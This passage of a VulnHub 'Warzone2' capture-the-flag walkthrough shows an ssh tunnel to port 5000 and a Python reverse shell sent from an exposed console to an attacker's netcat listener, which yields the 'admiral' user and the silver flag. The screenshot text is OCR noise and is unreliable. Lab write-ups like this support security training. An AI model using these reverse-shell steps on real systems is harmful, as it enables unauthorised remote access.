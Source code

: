 ## Set up ssh tunnel to port 5000
 - ```ssh -L 5000:localhost:5000 flagman@warzone2.local```

# admiral 
## Reverse shell as admiral (Silver)
 - Navigate to localhost:5000 to reveal pin input prompt to run python commands.
 - Send python reverse shell back to attacker machine

<img src="/assets/images/vulnhub/warzone2/image9.png" style="width:11.92708in;height:5.09375in" alt="Quit python -c &#39;import INET,socket.SDCK &#39;Tue Dec el # python -c &#39;import socket, INET,socket.SOCK os.dup2(s. os.dup2(s. f i Len&#39; RX errors e dropped e overruns e f rme e TX packets 256 bytes 45344 (44.2 Kia) TX errors e dropped e overruns e carrier e collisions e mtu ether txqueuelen IBBO (Ethernet) eth2: 10 : RX packets 9 bytes 1281 (1.2 Kia) RX errors e dropped e overruns e f rme e TX packets 256 bytes 45344 (44.2 Kia) TX errors e dropped e overruns e carrier e mtu 65536 inet 127.e.e.1 netmask 255.e.e.e inet6 : prefixlen 128 scopeid Loop txqueuelen IBBO (Local Loopback) RX packets 128861 bytes 15184677 (14.4 RX errors e dropped e overruns e frame e TX packets 128861 bytes 15184677 (14.4 TX errors e dropped e overruns e carrier e i@redten2020 # nc -rw 1344 - &#39;Tue Dec el no port(s) to connect to ] l@redtew-rQ020 # nc -nlvp 1344 listening on [any] 1344 ITue Dec el collisions e collisions e 39566 connect to [18.18.6.198] from [le.1e.6.189] $ id , IB9(netdev) , 112(bLuetooth) , 117 (Ipachin) , 118(scanner) - work " />

<img src="/assets/images/vulnhub/warzone2/image10.png" style="width:4.89583in;height:2.9375in" alt="drwxr-xr-x 2 $ cd Desktop total 12 drwxr-xr-x 2 drwxr-xr-x 16 admiral I achiral $ cat silver. txt ral 4896 Nov rat 4896 Nov admi ral 4896 Nov achi ral 284 Nov 8 B9:32 warzone2-app 8 19:17 . 8 B9:24 silver. txt FLAG SILVER L/ : {$silver_medal$} " />

# ROOT 
